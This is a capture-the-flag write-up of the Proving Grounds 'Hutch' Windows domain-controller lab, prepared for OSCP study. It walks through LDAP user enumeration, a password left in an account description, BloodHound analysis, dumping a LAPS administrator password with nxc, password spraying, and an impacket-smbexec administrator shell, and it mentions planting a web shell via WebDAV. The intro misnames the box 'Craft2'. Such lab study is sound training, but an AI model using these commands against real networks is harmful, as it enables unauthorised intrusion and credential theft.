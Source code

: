 ```yaml
---
layout: writeup
title: Hutch - Proving Grounds
date: 2024-08-02 13:32:20 +0300
description: A Writeup of the Hutch Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [Windows, TJ Null, Bloodhound, LAPS, Cadaver]
---
```


Ok, here's a writeup of Craft2 from [Proving Grounds](https://www.offsec.com/labs/). It is part of TJ Null’s OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#), and Proving Grounds has rated it to be Intermediate, though the Proving Grounds Community has rated it as Hard. As usual, I kick things off with an nmap scan, using vanilla nmap for this one with a few flags. The full command is: `nmap -A -sC -p- -v -T4 --open -o nmap.txt 192.168.248.122`

We have quite a few ports open here:
```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, DELETE, MOVE, PROPPATCH, MKCOL, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/10.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|   WebDAV type: Unknown
|_  Server Date: Wed, 21 Aug 2024 22:26:33 GMT
|_http-title: IIS Windows Server
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_  Potentially risky methods: TRACE COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-21 22:25:37Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
49755/tcp open  msrpc         Microsoft Windows RPC

```

First off, we can see from the output that the machine is in the `hutch.offsec` domain so we add that to our `/etc/hosts` file. We also have a few different ports to try for low hanging fruit, and we have a web server on port 80, so I run a directory scan in the background while I run a few other commands the easy stuff. 

For sub-domains: `gobuster dns -d hutch.offsec -t 25 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt`
For directories: `feroxbuster -u http://hutch.offsec`

Neither of these turn up anything interesting, especially given when we actually check the browser, we see we have a Windows Server landing page for port 80. 

![Hutch1.png](/assets/images/Hutch/Hutch1.png){: .center-aligned width="600px"}

No matter, like I said there are a few other commands to check. For the smb server on port 445, we run `smbclient -L \\\\192.168.248.122\\ -N` which does connect but doesn't list shares. We run enum4linux (`enum4linux -a hutch.offsec > enum4linux`) to check if anything stands out, but we don't get much beyond a confirmation of the domain. We do see LDAP is showing on a few ports, so we check ldapsearch, and that shows a bit more interesting stuff: `ldapsearch -x -H ldap://192.168.248.122 -b "dc=hutch,dc=offsec" > ldapsearch`. 

We can `grep` the output for name, userPrincipalName, and perhaps most useful, sAMAccountName:

![Hutch2.png](/assets/images/Hutch/Hutch2.png){: .center-aligned width="600px"}

This looks like a pretty good list of users on the back half. We can look around a bit more and confirm Administrator is there as usual as well. So that's pretty helpful, and we can add them all to a users file using cut: `cat ldapsearch | grep sAMAccountName | cut -d : -f 2 > usernames.txt`. We should get rid of everything except Guest (+ Administrator), but it's faster than doing it manually. Usernames.txt now looks like this:
```
Administrator 
Guest
rplacidi
opatry
ltaunton
acostello
jsparwell
oknee
jmckendry
avictoria
jfrarey
eaburrow
cluddy
agitthouse
fmcsorley
```

We search through the ldapsearch output a bit more, and we find something else interesting in the description entry for `fmcsorley`: 

![Hutch3.png](/assets/images/Hutch/Hutch3.png){: .center-aligned width="600px"}

Could it be a clue?! We can go back over pretty much everything now that we actually have a potential password to test with. We try a few of the same commands with creds now (as well as a few RCE attempts with impacket), and it works with smbclient (We also add `fmcsorley:CrabSharkJellyfish192` to creds.txt):

![Hutch4.png](/assets/images/Hutch/Hutch4.png){: .center-aligned width="600px"}

Unfortunately, it seems like both NETLOGON and SYSVOL are empty. Interesting. At that point I decided to just get more information from `bloodhound-python` to see if I could find anything:

`bloodhound-python -u "fmcsorley" -p 'CrabSharkJellyfish192' -d hutch.offsec -c all --zip -ns 192.168.248.122`

![Hutch5.png](/assets/images/Hutch/Hutch5.png){: .center-aligned width="600px"}

We can see from clicking around for a little bit that the user we already have access to has the `ReadLAPSPassword` permission. This is 


`nxc ldap 192.168.248.122 -u fmcsorley -p CrabSharkJellyfish192 --kdcHost 192.168.248.122 -M laps`

![Hutch6.png](/assets/images/Hutch/Hutch6.png){: .center-aligned width="600px"}

I didn't actually know which user this password corresponded to, so I ran `nxc` to check against the list of usernames I had access to:`nxc smb 192.168.248.122 -u usernames.txt -p 'z]8oLLqK5vSeD+' -d hutch.offsec --continue-on-success`

![Hutch7.png](/assets/images/Hutch/Hutch7.png){: .center-aligned width="600px"}

And it looks like it's the Administrator! Nice, so the only thing left to do is pop a shell and get some flags. I foolishly used impacket-smbexec instead of evil-winrm, but thats how you know I'm not just copy/pasting this from another author: `impacket-smbexec hutch.offsec/Administrator:z]8oLLqK5vSeD+@192.168.248.122`

![Hutch8.png](/assets/images/Hutch/Hutch8.png){: .center-aligned width="600px"}

#### Lessons learned
- I realized that while I got the proof.txt immediately because I got access as Administrator, there actually are two flags on this box. When I tried to use `cd` to look around, I realized that I couldn't because I was using `impacket-smbexec`. So that's a point for `evil-winrm`.
- Also, in bloodhound make sure to every high value target as high value. In this case the target host wasn't, just the DC, even though I think they are effectively the same. 

![Hutch9.png](/assets/images/Hutch/Hutch9.png){: .center-aligned width="600px"}

- I didn't know this, but after reading some other writeups after the fact, it seems that we should notice that there is a webdav share available, and there is a tool called `cadaver` which allows us to access it and treat it much like an FTP server or SMB share. In this case, we are able to put a reverse shell there or at least a web shell. We can then visit it in the browser by going to `http://$target/shell`. 

![Hutch10.png](/assets/images/Hutch/Hutch10.png){: .center-aligned width="600px"}

#### Remediation Steps
- Remove fmcsorley's password from the description. 
- Remove fmcsorley's ability to readLAPSPassword if they don't need it. 
- Secure the webdav share. 
